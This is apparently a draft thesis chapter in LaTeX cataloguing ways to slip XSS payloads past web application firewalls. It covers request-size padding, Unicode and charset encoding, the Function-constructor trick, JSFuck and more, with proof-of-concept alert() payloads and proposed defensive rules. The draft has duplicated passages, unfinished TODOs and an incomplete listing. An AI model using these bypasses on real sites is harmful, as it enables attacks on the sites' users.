When using the function \verb|eval()| (see Section~\ref{sec:eval}) causes a request to be blocked, a substitute in the form of \verb|[].constructor.constructor(`alert('XSS')`)()| is available in JavaScript.

Calling \verb|[]| will create an empty array, which is a special kind of object.
Any kind of object in JavaScript, with the exception of null prototype objects, will have a constructor property on its prototype. \cite{js/object}

The Array objects constructor can be accessed by calling \verb|.constructor| on an instance of Array, like \verb|[].constructor|. \cite{js/array}
Constructors are technically regular functions. \cite{js/constructor}
As such, they are Function objects. Function objects have a constructor themselfes, which again is called using the \verb|.constructor| notation.

Using \verb|[].constructor.constructor| will yield access to the Function() constructor.
Calling the Function() constructor directly can create functions dynamically, similar to using \verb|eval()|.
The difference being that the Function() constructor creates functions that execute in the global scope only.

The Function() constructor takes a variable count of arguments. The first $n - 1$ arguments are the \quotes{names to be used by the function as formal argument names. Each must be a string that corresponds to a valid JavaScript parameter [...]} \cite{js/function}
The last argument given to the Function() constructor is expected to be a string containing the JavaScript statements compromising the function definition. \cite{js/function}

Therefore, the afromentioned substitute for \verb|eval()| - \\ \verb|[].constructor.constructor(`alert('XSS')`)()| - \\ will create a function with the function body \verb|alert('XSS')| and call it directly.
In other words: It will call a function that calls \verb|alert('XSS')|.
Technique by \cite{onecons/wafbypass}.

\subsubsection{square bracket notation}
JavaScript provides a \quotes{square bracket notation} to access properties of an Object. It is used to access multiword properties as well as provide a way of obtaining property names as the result of an expression. \cite{js/brackets}

This \quotes{square bracket notation} allows to substitute the dot notation in a case where using the dot notation is not feasible or blocked by firewall rules.
For instance, in a payload composed using the function constructor as stated in \ref{sec:functionconstructor}, the part \\ \verb|[].constructor.constructor(`alert('XSS')`)()| can be substituted with \\ \verb|[][`constructor`][`constructor`](`alert('XSS')`)()|.


\subsubsection{string replace}
\label{sec:stringreplace}
When passing certain characters is not feasible, there is a chance they can be substituted in a string replacement strategy using the \verb|+| operator.
A part of the description of the \verb|+| operator in JavaScript states:
\begin{quote}
	The + operator is overloaded for two distinct operations: numeric addition and string concatenation. When evaluating, it first coerces both operands to primitives. ... \cite{js/+}
\end{quote}
In the process of primitive coercion, objects are converted to primitives by calling their \verb|[@@toPrimitive]()|, \verb|valueOf()| and \verb|toString()| methods in the given order. Date and Symbol objects are the only built-in objects that override the \verb|[@@toPrimitive]()| method.
Objects without an override for the \verb|[@@toPrimitive]()| method inherit \verb|valueOf| from \verb|Object.prototype.valueOf|, which returns the object itself.
Since the return value is an object, it is ignored and \verb|toString()| is called instead. \cite{js/primitiveCoercion}

In the code \verb|open + []|, \verb|open| is a built-in Function object, \verb|[]| is a built-in Array object.
In the process of primitive coercion, for both, their \verb|toString()| method is being called.
When they are joined by the \verb|+| operator, it results in a String in the form of \verb|open.toString()| concatenated with \verb|[].toString()|. The result is equal to \verb|open.toString()| (see Listing~\ref{lst:opentostring}) as \verb|[].toString()| returns an empty String.

\begin{lstlisting}[style=basicStyle, caption=open.toString() in JavaScript, label={lst:opentostring}]
function open() {
    [native code]
}
\end{lstlisting}

In JavaScript, array-like access to String objects is possible. \cite{js/stringbrackets} For example, \verb|[open+[]][0][13]| returns the character \verb|(|. \verb|[open+[]][0][14]| returns the character \verb|)|. Listing~\ref{lst:opentostringindices} visualizes open.toString() with the corresponding indices.

\begin{lstlisting}[style=basicStyle, caption=open.toString() with indices in JavaScript, label={lst:opentostringindices}]
f u n c t i o n   o p  e  n  (  )     {  \n       
0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 

[  n  a  t  i  v  e     c  o  d  e  ]  \n }  
22 23 24 25 26 27 28 29 30 31 32 33 34 35 36 
\end{lstlisting}


\subsubsection{Aurebesh}





	\subsection{Various Payloads}
\label{sec:varioustech}
This section lists evasion techniques applicable to various payloads.

\subsubsection{Payload size}
Some Web application firewalls are configured to skip requests sizes above a set threshold.

AWS WAF limits the \quotes{Maximum size of a web request body that can be inspected for CloudFront, API Gateway, Amazon Cognito, App Runner, and Verified Access protections**} to 64 KB, the \quotes{Maximum size of a web request body that can be inspected for Application Load Balancer and AWS AppSync protections} to 8 KB. \cite{aws/waflimits}

Microsoft Azure allows the configuration of limits on newer Rule Sets:
\begin{quote}
	For Application Gateway v2 Web Application Firewalls running Core Rule Set 3.2, or newer, the maximum request body size enforcement and max file upload size enforcement can be disabled and the Web Application Firewall will no longer reject a request, or file upload, for being too large. When maximum request body size enforcement and max file upload size enforcement are disabled within the Web Application Firewall, Application Gateway's limits determine the maximum size allowable. For more information, see Application Gateway limits. \cite{ms/azurewaflimits}
\end{quote}

With the \quotes{Maximum request inspection limit (WAF SKU)} at a default value of 2 MB with the option to disable the limit completely according to their "Application Gateway limits" document. \cite{ms/appgatewaylimits}

Akamai answers the question \quotes{Can WAF inspect all arguments and values in request body? Is there any limitation on the size of the request?} on their FAQ page with \quotes{By default, the WAF inspects only the first 8KB of a request. It can increase the limit up to 128KB by adding Advanced Metadata.} \cite{akamai/waflimits}

Cloudflare lists a limit of 128 KB in the Cloudflare Rules language definition, with truncation upon reaching it:
\begin{quote}
	All http.request.body.* fields (except http.request.body.size) handle a maximum body size of 128 KB, which means that you cannot define expressions that rely on request body data beyond the first 128 KB. If the request body is larger, the body fields will contain a truncated value and the http.request.body.truncated field will be set to true. The http.request.body.size field will contain the full size of the request without any truncation.

	The maximum body size of 128 KB applies only to the values of HTTP body fields — the origin server will still receive the complete request body.
\end{quote}

The ModSecurity recommended configuration sets the following limits for requests:
\begin{quote}
	SecRequestBodyLimit 13107200 \\
	SecRequestBodyNoFilesLimit 131072
\end{quote}
with requests exceeding the limits being rejected by default. \cite{modsec/recconf}

Depending on the specific rule configuration by each service, blowing up requests with filler-data to exceed the inspection limit might make the malicious payload evade detection. Some Web applications might accept request bodies filled with unused data, as long as there is a valid key: value pair inside. If this key: value pair is positioned past the 8 KB limit of the Akamai WAF for instance, the malicious value might go unnoticed.


\subsubsection{Unicode encoding in JSON}
RFC 4627 \quotes{The application/json Media Type for JavaScript Object Notation} states under section 2.5 \quotes{Strings}:
\begin{quote}
	The representation of strings is similar to conventions used in the C
	family of programming languages.  A string begins and ends with
	quotation marks.  All Unicode characters may be placed within the
	quotation marks except for the characters that must be escaped:
	quotation mark, reverse solidus, and the control characters (U+0000
	through U+001F).

	Any character may be escaped.  If the character is in the Basic
	Multilingual Plane (U+0000 through U+FFFF), then it may be
	represented as a six-character sequence: a reverse solidus, followed
	by the lowercase letter u, followed by four hexadecimal digits that
	encode the character's code point.  The hexadecimal letters A though
	F can be upper or lowercase.  So, for example, a string containing
	only a single reverse solidus character may be represented as
	"\u005C". \cite{rfc4627}
\end{quote}
As escaping any character should be possible in a JSON payload, firewall filters that look for a certain sequence of characters might be evaded by escaping one or more characters from that sequence.

	{\color{red} TODO: example, request with unicode replaced \$ }


\subsubsection{Unicode normalization}
\label{sec:unicodenormalization}
The unicode standard defines two types of equivalence between characters: canonical equivalence and compatibility equivalence. The report "Unicode Normalization Forms" by Ken Whistler for Unicode Version 15.1.0 states the following regarding the two types of equivalence:

\begin{quote}
	Canonical equivalence is a fundamental equivalency between characters or sequences of characters which represent the same abstract character, and which when correctly displayed should always have the same visual appearance and behavior. Figure 1 shows this type of equivalence with examples of several subtypes.
	\\
	\begin{figure}[h]
		\centering
		
\includegraphics[width=0.5\textwidth]{caneq.png}
		\label{fig:caneq}
		\caption{ Examples of Canonical Equivalence \cite{unicode/normalization}}
	\end{figure}
	\\
	Compatibility equivalence is a weaker type of equivalence between characters or sequences of characters which represent the same abstract character (or sequence of abstract characters), but which may have distinct visual appearances or behaviors. The visual appearances of the compatibility equivalent forms typically constitute a subset of the expected range of visual appearances of the character (or sequence of characters) they are equivalent to. However, these variant forms may represent a visual distinction that is significant in some textual contexts, but not in others. As a result, greater care is required to determine when use of a compatibility equivalent is appropriate. [...] Figure 2 provides examples of compatibility equivalence. \cite{unicode/normalization}
	\\
	\begin{figure}[h]
		\centering
		
\includegraphics[width=0.5\textwidth]{compeq.png}
		\label{fig:compeq}
		\caption{ Examples of Canonical Equivalence \cite{unicode/normalization}}
	\end{figure}
	\\
\end{quote}

Normalization Forms are further described in the report:
\begin{quote}
	Unicode Normalization Forms are formally defined normalizations of Unicode strings which make it possible to determine whether any two Unicode strings are equivalent to each other. Depending on the particular Unicode Normalization Form, that equivalence can either be a canonical equivalence or a compatibility equivalence.

	Essentially, the Unicode Normalization Algorithm puts all combining marks in a specified order, and uses rules for decomposition and composition to transform each string into one of the Unicode Normalization Forms. A binary comparison of the transformed strings will then determine equivalence.

	The four Unicode Normalization Forms are summarized in Table 1. \cite{unicode/normalization}
	\begin{table}[h]
		\centering
		\label{tab:normform}
		\caption{ Normalization Forms }
		\begin{tabular}{ |c|c| }
			\hline
			Form                         & Description                       \\
			\hline
			\hline
			Normalization Form D (NFD)   & Canonical Decomposition           \\
			\hline
			Normalization Form C (NFC)   & Canonical Decomposition,          \\
			                             & followed by Canonical Composition \\
			\hline
			Normalization Form KD (NFKD) & Compatibility Decomposition       \\
			Normalization Form KC (NFKC) & Compatibility Decomposition,      \\
			                             & followed by Canonical Composition \\
			\hline
		\end{tabular}
	\end{table}
\end{quote}
In the context of Firewall Evasion, if inputs on the web server are normalized using one of the afromentioned Normalization Forms during processing, an attacker could try to substitute certain characters inside a malicious payload with equivalent unicode characters. \cite{medium/allypetitt} Such a payload might be able to avoid the filter of the Web Application Firewall that is looking for patterns including the normalized form of the unicode character. As an example, the payload \verb|prompt`${secret}`| could be substituted with the payload \verb|prompt`\uFE69{secret}`|. U+FE69 is named "Small Dollar Sign" and its decomposition form is U+0024, which is the regular Dollar Sign. \cite{comp/uni}
Using the JavaScript function "normalize", the string containing the Small Dollar Sign: \verb|"\uFE69"| can be decomposed using Compatibility Decomposition (NFKD) into a string containing the normal Dollar Sign: \verb|"\u0024"| respectively \verb|"$"| by calling \verb|"\uFE69".normalize("NFKD")|.

Unicode Normalization is also supported in programming languages different to JavaScript, such as Python. \cite{python/normalization}


\subsubsection{Case alternation}
In order to evade regex filerting by the WAF, the case of a payload can be alternated. \cite{medium/allypetitt}
Modern regex flavors allow the application of modifiers to parts of the regular expression.
One such modifier is \verb|(?i)|. It makes the regex case insensitive. \cite{regex/jan} Only when this modifier is not used, can a payload evade regex filtering using case alternation.

Taking the XSS payload \verb|<script>alert('XSS')</script>| as an example, after applying case alternation, it might result in a payload in the form of: \verb|<sCrIpT>alert('XSS')</sCriPt>|.
Another example is file access on a wrongfully public file.
The Windows file system trests file and directory names as case-insensitive by default. \cite{windows/casesensitive}
On a web server hosted on Windows that exposes a .env file with stored secrets, both urls: \\ \verb|http://127.0.0.1:8000/.env| and \verb|http://127.0.0.1:8000/.enV| \\
are treated equally.


\subsubsection{Comment interference}
\label{sec:commint}
{\color{red} TODO: rework this to javascript comment interference}

% In some context, comments can be used to break up statements. Regarding SQL, the Oracle Database SQL Reference states:
% \begin{quote}
% 	A comment can appear between any keywords, parameters, or punctuation marks in a statement. You can include a comment in a statement in two ways:
% 	\begin{itemize}
% 		\item Begin the comment with a slash and an asterisk (/*). Proceed with the text of the comment. This text can span multiple lines. End the comment with an asterisk and a slash (*/). The opening and terminating characters need not be separated from the text by a space or a line break.
% 		\item Begin the comment with -- (two hyphens). Proceed with the text of the comment. This text cannot extend to a new line. End the comment with a line break.
% 	\end{itemize}
% 	\cite{oracle/sqlcomments}
% \end{quote}
% Ally Petitt suggests using comments inside SQL statements to break up SQL keywords: \verb|?id=1+un/**/ion+sel/**/ect+1,2,3--| \cite{medium/allypetitt}


\subsubsection{Percent encoding}
RFC 3986 states under section 2.1 "Percent-Encoding":
\begin{quote}
	A percent-encoding mechanism is used to represent a data octet in a
	component when that octet's corresponding character is outside the
	allowed set or is being used as a delimiter of, or within, the
	component.  A percent-encoded octet is encoded as a character
	triplet, consisting of the percent character "\%" followed by the two
	hexadecimal digits representing that octet's numeric value.  For
	example, "\%20" is the percent-encoding for the binary octet
	"00100000" (ABNF: \%x20), which in US-ASCII corresponds to the space
	character (SP). \cite{rfc3986}
\end{quote}
If a Web Application Firewall does not perform percent-decoding on filtered requests but the request is being decoded by the Web Server, such as is the case when data is being sent as part of an URI (\cite{rfc3986/sec2.4}), a malicious payload could be percent-encoded to avoid detection by the firewall.

\subsubsection{Charset alternation}
To indicate the original media type prior to any applied content encoding, the HTTP \verb|Content-Type| representation header is used.
It can be used in requests by the client to tell the server what type of data is actually sent.
\verb|charset| is a possible directive, that specifies the character encoding standard.
It can be supplied with the \verb|Content-Type| header. \cite{http/contenttype}
If a web server is supporting requests in different encoding standards, but the WAF is not configured to parse certain encoding standards, the WAF may not recognize such encoded request as malicious.

The payload \verb|'<script>alert("xss")</script>'| becomes \\
\verb|'L%A2%83%99%89%97%A3n%81%93%85%99%A3M%7F%A7%A2%A2%7F%5DLa%A2%83%99%89%97%A3n'|
after encoding the payload to the charset \verb|IBM037| followed by percent encoding. \\
This differs from the same payload in \verb|UTF-8| followed by percent encoding: \\
\verb|'%3Cscript%3Ealert%28%22xss%22%29%3C%2Fscript%3E'| \\
\verb|UTF-8| encoding is the standard for URIs according to RFC-3986. \cite{rfc3986} \\
Technique by \cite{medium/allypetitt}.

	\subsection{Cross-site Scripting Payloads}
\label{sec:xsstech}
This section lists evasion techniques applicable to Cross-site Scripting payloads.

\subsubsection{Tag modification}
In a case, where regex filters are configured to look for html tags, modifying html tags might make a payload evade the filter. Possible modifications include:
\begin{itemize}
	\item prepending the tag with an additional \verb|<|: \verb|<<script>alert('XSS')</script>|
	\item omitting the closing tag: \verb|<script>alert('XSS')|
	\item using double open angle brackets: \verb|<iframe src=javascript:alert('XSS') <|
	\item using uncommon tags: \\ \verb|<STYLE>.classname{background-image:url("javascript:alert(XSS)");}</STYLE>|
\end{itemize}
Technique by \cite{medium/allypetitt}

\subsubsection{Space replace}
A regex filter that is expecting a space inside a html tag at certain positions can be evaded by replacing the space with the forward slash: \verb|/|.
For instance, the payload

\begin{lstlisting}[style=basicStyle, language=Python]
<img src="1" onerror="alert('XSS')">
\end{lstlisting}

becomes

\begin{lstlisting}[style=basicStyle, language=Python]
<img/src="1"/onerror="alert('XSS')">
\end{lstlisting}

Technique by \cite{medium/allypetitt}. {\color{red}TODO: link to evaluation}

\subsubsection{HTML character references}
\label{sec:htmlcharreftech}
Sometimes Cross-site scripting payloads are using HTML elements to deliver a payload. Inside such payloads, HTML character references can be used to obscure the payload. The HTML specification states that in certain cases, text may be mixed with character references. Character references must start with a U+0026 AMPERSAND character (\&). Following this, there are three possible kinds of character references: Named character references, Decimal numeric character references or Hexadecimal numeric character references. \cite{www/html}

Considering the example payload using the \verb|<a>| element to exploit a stored Cross-site scripting vulnerability:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=javascript:alert('a')>ClickMeFor$</a>
\end{lstlisting}

which is semantically equal to the following payload where a named character reference is used to substitute the left parenthesis of the initial payload:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=javascript:alert^\&lpar;^'a')>ClickMeFor$</a>
\end{lstlisting}

If a decimal numeric character reference is used to substitute a latin small letter a, the initial payload becomes the following:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=jav^\&\#97;^script:alert('a')>ClickMeFor$</a>
\end{lstlisting}

Finally, if hexadecimal numeric character references are used to substitute a latin small letter a as well as the left parenthesis, the initial payload becomes:

\begin{lstlisting}[style=basicStyle, language=Python, escapeinside=\^\^]
<a href=jav^\&\#x61;script:alert\&\#x28;^'a')>ClickMeFor$</a>
\end{lstlisting}

The evaluation results of payloads obscured using this technique are stated under Section~\ref{sec:htmlcharrefsingleeva} (single iteration) and Section~\ref{sec:htmlencjsesc} (multi iteration).

\subsubsection{From charcode}
\label{sec:fromcharcodetech}
Evading signature based Web application firewalls that match on payloads containing JavaScript statements can be achieved by syntactically modifying the payload String. This technique can be used if the JavaScript statements constituting the malicious part of the payload are passed in string format. Rules blocking requests based on detected character sequences might be evaded by substituting payloads with a sematically equivalent but syntactically different String. This and the next two subsections will detail three different methods to syntactically alter payload strings in JavaScript.

With the built-in \verb|String| object, JavaScript provides the static \verb|fromCharCode| function. The \verb|String.fromCharCode()| function returns a string created from the sequence of UTF-16 code units given as parameters to the function. \cite{js/fromCharCode}

For instance, the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
eval(String.fromCharCode(0x61,108,0x65,114,116,0x28,96,120,115,115,0x60,0x29))
\end{lstlisting}

is semantically equal to the payload:

\begin{lstlisting}[style=basicStyle, language=Python]
eval("alert('xss')")
\end{lstlisting}

The obscured payload uses charcodes specified in decimal or hexadecimal format to compose the malicious payload string. Evaluation results using this evasion technique are stated under Section~\ref{sec:charcodesingleiter}.

Technique by \cite{asecsite/jsobf1}.

\subsubsection{String passing}

\subsubsection{JavaScript escaping}
\label{sec:jsescape}
{\color{red} TODO:
	\begin{itemize}
		\item js hex escape
		\item js octal escape
		\item js normal character escape
		\item js unicode escape es6
	\end{itemize}
}

\subsubsection{Tagged Template Literals}
\label{sec:taggedtemplateliterals}
Tagged Template Literals can be used in JavaScript payloads to avoid detection of JavaScript function calls in an http request. Dr. Alex Rauschmeyer explains Tagged Template Literals in ``Exploring ES6'':
\begin{quotation} Tagged Template Literals are function calls whose parameters are provided via template literals. [...]
	The following is a tagged template literal (short: tagged template):
	\begin{lstlisting}
tagFunction`Hello ${firstName} ${lastName}!`
\end{lstlisting}
	Putting a template literal after an expression triggers a function call, similar to how a parameter list (comma-separated values in parentheses) triggers a function call. The previous code is equivalent to the following function call (in reality, first parameter is more than just an Array, but that is explained later).
	\begin{lstlisting}
tagFunction(['Hello ', ' ', '!'], firstName, lastName)
\end{lstlisting}
	Thus, the name before the content in backticks is the name of a function to call, the tag function.
	\cite{exploringes6/templatelit}
\end{quotation}

As the function \verb|alert| can be called with an array as first parameter, it is possible to substitute the payload with \verb|alert`XSS`|. The substitute payload might evade regex filtering that looks for a function name followed by an opening \verb|(|.
Technique by \cite{onecons/wafbypass}.


\subsubsection{eval() function}
\label{sec:eval}

JavaScript payloads that are being passed in string format can be executed using the eval function. The \verb|eval()| function will evaluate the source string given as an argument and return its completion value. \cite{js/eval}
A possible usecase for \verb|eval()| in the quest to bypass a \gls{waf} is the splitting of function names that would cause a HTTP request to get rejected by the firewall.
Looking at Listing~\ref{lst:alertXSSblocked}, it is clear that the function call \verb|alert('XSS')| is being blocked by the ModSecurity firewall using CRS 4.1.0.
To avoid a match on \verb|alert(|, it is possible to split the function call into parts \verb|al|, \verb|e| and \verb|rt('XSS')| by using string concatenation in the form of \verb|`al` + `e` + `rt('XSS')`|.
Sending the payload in this form will not cause the the desired effect, as a JavaScript interpreter will interpret the payload as a string instead of a function call to the \verb|alert()| function.
Using the \verb|eval()| function in combination with the splitted string solves this problem. Passing the string \verb|`al` + `e` + `rt('XSS')`| in the form of \verb|eval(`al` + `e` + `rt('XSS')`)| as an argument to the \verb|eval()| function will cause the string to be evaluated and interpreted. Technique inspired by \cite{onecons/wafbypass}.

\subsubsection{function constructor}
\label{sec:functionconstructor}

When using the function \verb|eval()| (see Section~\ref{sec:eval}) causes a request to be blocked, a substitute payload in the form of

\begin{lstlisting}[style=basicStyle,language=Python]
[].constructor.constructor(`alert('XSS')`)()
\end{lstlisting}

is available in JavaScript.

Calling \verb|[]| will create an empty array, which is a special kind of object.
Any kind of object in JavaScript, with the exception of null prototype objects, will have a constructor property on its prototype. \cite{js/object}

The Array objects constructor ca n be accessed by calling \verb|.constructor| on an instance of Array, like \verb|[].constructor|. \cite{js/array}
Constructors are technically regular functions. \cite{js/constructor}
As such, they are Function objects. Function objects have a constructor themselfes, which again is called using the \verb|.constructor| notation.

Using \verb|[].constructor.constructor| will yield access to the Function() constructor.
Calling the Function() constructor directly can create functions dynamically, similar to using \verb|eval()|.
The difference being that the Function() constructor creates functions that execute in the global scope only.

The Function() constructor takes a variable count of arguments. The first $n - 1$ arguments are the \quotes{names to be used by the function as formal argument names. Each must be a string that corresponds to a valid JavaScript parameter [...]} \cite{js/function}
The last argument given to the Function() constructor is expected to be a string containing the JavaScript statements compromising the function definition. \cite{js/function}

Therefore, the afromentioned substitute for \verb|eval()|: 

\begin{lstlisting}[style=basicStyle,language=Python]
[].constructor.constructor(`alert('XSS')`)()
\end{lstlisting}

will create a function with the function body \verb|alert('XSS')| and call it directly.
In other words: It will call a function that calls \verb|alert('XSS')|.
Technique by \cite{onecons/wafbypass}.

A more straightforward and less obscure way of accessing the Function() contructor is to call it directly:
\begin{quote}
	\verb|Function()| can be called with or without \verb|new|. Both create a new \verb|Function| instance. \cite{js/function}
\end{quote}
Depending on the firewall configuration, a WAF might use regex filtering to detect usage of \verb|Function()|.
In this case, accessing the Function() constructor via an array object can be an alternative.

In addition to accessing the function constructor via the \verb|constructor| function present on most object prototypes, the function constructor can also be accessed via other functions present on certain object prototypes. For instance, the \verb|map| function is present on the Array object's prototype. Therefore the following payload is also valid: 

\begin{lstlisting}[style=basicStyle,language=Python,escapeinside=\^\^]
[].^map^.constructor(`alert('XSS')`)()
\end{lstlisting}

(Technique using \verb|map| by \cite{mk/elementsVid}).

If, for any reason, the Array object can not be used, there are substitutes available in the form of JavaScript's standard built-in objects. \cite{js/builtin}
JavaScript's built-in objects include but are not limited to built-in global functions that can be used as a substitute:

\begin{lstlisting}[style=basicStyle,language=Python,escapeinside=\^\^]
isNaN.constructor(`alert('XSS')`)()
\end{lstlisting}

as well as a multitude of other built-in objects, for example the \verb|Error| object:

\begin{lstlisting}[style=basicStyle,language=Python,escapeinside=\^\^]
Error.constructor.constructor(`alert('XSS')`)()
\end{lstlisting}

If firewall rule maintainers implement new rules to specifically block the access to the function constructor by blacklisting all built-in JavaScript objects, there is still the possibility that in the time after an update to JavaScript (ECMAScript) some newly released built-in objects are not blocked yet. This can be caused by either the rule maintainers slow adaption speed or a missing update on the Web application firewall.

In any case, the access to the \verb|Function| constructor is possible on self defined objects too. The following code sample displays this:

\begin{lstlisting}[style=basicStyle,language=Python,escapeinside=\^\^]
const someObject = { someProperty: "some string" }
someObject.constructor.constructor(`alert('XSS')`)()
\end{lstlisting}

If the availablitiy of custom object references in the execution scope of the payload-code is given, custom object references can be used to create a function via the \verb|Function| constructor. 

The results of evaluating the ModSecurity firewall using CRS4.1 by applying this evasion technique are shown under Section~\ref{sec:functionconstructorsingleeva} for the single iteration evaluation and Section~\ref{sec:funconstrconbypass} for the multi iteration evaluation.

Firewall rules for the OWASP CoreRuleSet in version 4.1 are proposed under Section~\ref{sec:rulespropfunctionconstructor} and Section~\ref{sec:rulespropfunctionconstructorreflection}.


\subsubsection{square bracket notation}
\label{sec:sbn}
JavaScript provides a \quotes{square bracket notation} to access properties of an Object. It is used to access multiword properties as well as provide a way of obtaining property names as the result of an expression. \cite{js/brackets}

This \quotes{square bracket notation} allows to substitute the dot notation in a case where using the dot notation is not feasible or blocked by firewall rules.
For instance, in a payload composed using the function constructor as stated in \ref{sec:functionconstructor}, the part \\ \verb|[].constructor.constructor(`alert('XSS')`)()| can be substituted with \\ \verb|[][`constructor`][`constructor`](`alert('XSS')`)()|.

{\color{red} hier evtl noch bisschen mehr details}


\subsubsection{string replace}
\label{sec:stringreplace}
When passing certain characters is not feasible, there is a chance they can be substituted in a string replacement strategy using the \verb|+| operator.
A part of the description of the \verb|+| operator in JavaScript states:
\begin{quote}
	The + operator is overloaded for two distinct operations: numeric addition and string concatenation. When evaluating, it first coerces both operands to primitives. ... \cite{js/+}
\end{quote}
In the process of primitive coercion, objects are converted to primitives by calling their \verb|[@@toPrimitive]()|, \verb|valueOf()| and \verb|toString()| methods in the given order. Date and Symbol objects are the only built-in objects that override the \verb|[@@toPrimitive]()| method.
Objects without an override for the \verb|[@@toPrimitive]()| method inherit \verb|valueOf| from
\\ \verb|Object.prototype.valueOf|, which returns the object itself.
Since the return value is an object, it is ignored and \verb|toString()| is called instead. \cite{js/primitiveCoercion}

In the code \verb|open + []|, \verb|open| is a built-in Function object, \verb|[]| is a built-in Array object.
In the process of primitive coercion, for both, their \verb|toString()| method is being called.
When they are joined by the \verb|+| operator, it results in a String in the form of \verb|open.toString()| concatenated with \verb|[].toString()|. The result is equal to \verb|open.toString()| (see Listing~\ref{lst:opentostring}) as \verb|[].toString()| returns an empty String.

\begin{lstlisting}[style=basicStyle, caption=open.toString() in JavaScript, label={lst:opentostring}]
function open() {
    [native code]
}
\end{lstlisting}

In JavaScript, array-like access to String objects is possible. \cite{js/stringbrackets} For example, \verb|[open+[]][0][13]| returns the character \verb|(|. \verb|[open+[]][0][14]| returns the character \verb|)|. Listing~\ref{lst:opentostringindices} visualizes open.toString() with the corresponding indices.

\begin{lstlisting}[style=basicStyle, caption=open.toString() with indices in JavaScript, label={lst:opentostringindices}]
f u n c t i o n   o p  e  n  (  )     {  \n
0 1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21

[  n  a  t  i  v  e     c  o  d  e  ]  \n }
22 23 24 25 26 27 28 29 30 31 32 33 34 35 36
\end{lstlisting}


\subsubsection{JSFuck}
\label{sec:jsfuck}
JSFuck was created by Martin Kleppe to write any valid JavaScript with only 6 different characters. 6 different characters is close to the possible Minimum, there are suggestions to use only 5 different characters, but they have some preconditions. \cite{mk/five, tc39/pipeline}
Martin Kleppe describes JSFuck as follows:
\begin{quote}
	JSFuck is an esoteric and educational programming style based on the atomic parts of JavaScript. It uses only six different characters to write and execute code.

	It does not depend on a browser, so you can even run it on Node.js. \cite{mk/jsfuck}
\end{quote}
Encoding the payload \verb|alert(1)| in JSFuck results in following payload:
\begin{lstlisting}[style=basicStyle, caption=alert(1) in JSFuck, label={lst:alert1jsfuck}]
  (![] + [])[+!+[]] +
    (![] + [])[!+[] + !+[]] +
    (!![] + [])[!+[] + !+[] + !+[]] +
    (!![] + [])[+!+[]] +
    (!![] + [])[+[]] +
    ([][
      (![] + [])[+[]] +
        (![] + [])[!+[] + !+[]] +
        (![] + [])[+!+[]] +
        (!![] + [])[+[]]
    ] + [])[+!+[] + [!+[] + !+[] + !+[]]] +
    [+!+[]] +
    ([+[]] +
      ![] +
      [][
        (![] + [])[+[]] +
          (![] + [])[!+[] + !+[]] +
          (![] + [])[+!+[]] +
          (!![] + [])[+[]]
      ])[!+[] + !+[] + [+[]]],
\end{lstlisting}

This payload is 297 characters long, which is around 37 times more than the 8 characters forming \verb|alert(1)|. On usage of JSFuck, payload size increases dramatically. Encoding the payload \verb|alert('XSS')| already requires 5739 characters (see Listing~\ref{lst:alertxssjsfuck}). If payload size is not limited, a lot of obscuration can be gained by using JSFuck to obscure payloads. The JSFuck website provides an encoder that is ready to use. It supports implemented evaluating of the payload such that no additional measure is needed to execute the payload. \cite{mk/jsfuck}


\subsubsection{Aurebesh.js}
\label{sec:aurebesh}
Similar to JSFuck, Aurebesh.js was created by Martin Kleppe. In its minimalistic form, it allows to write a valid JavaScript function calling \verb|alert(1)| with the characters \verb|() + [] ! " = {}| as well as one other character of choice. Aurebesh.js allows the choice of up to 9 distinct characters or words. In the case where the characters \verb|A B C D E F G H I| are chosen, the system is explained as follows:
\begin{lstlisting}[style=basicStyle, caption=Aurebesh.js explanation \cite{mk/aurebesh}, label={lst:aurebeshexplanation}]
		A = ''              // empty string
		B = !A + A          // "true"
		C = !B + A          // "false"
		D = A + {}          // "[object Object]"
		E = B[A++]          // "t" = "true"[0]
		F = B[G = A]        // "r" = "true"[1]
		H = ++G + A         // 2, 3
		I = D[G + H]        // "c"

		B[
		  I +=              // "c"
		    D[A] +          // "o" = "object"[0]
		    (B.C+D)[A] +    // "n" = "undefined"[1]
		    C[H] +          // "s" = "false"[3]
		    E +             // "t"
		    F +             // "r"
		    B[G] +          // "u" = "true"[2]
		    I +             // "c" = "[object]"[5]
		    E +             // "t"
		    D[A] +          // "o" = "[object]"[1]
		    F               // "r"
		][
		  I                 // "constructor"
		](
		  C[A] +            //  "a"
		  C[G] +            //  "l"
		  B[H] +            //  "e"
		  F +               //  "r"
		  E +               //  "t"
		  "(A)"             // "(1)"
		)()
\end{lstlisting}
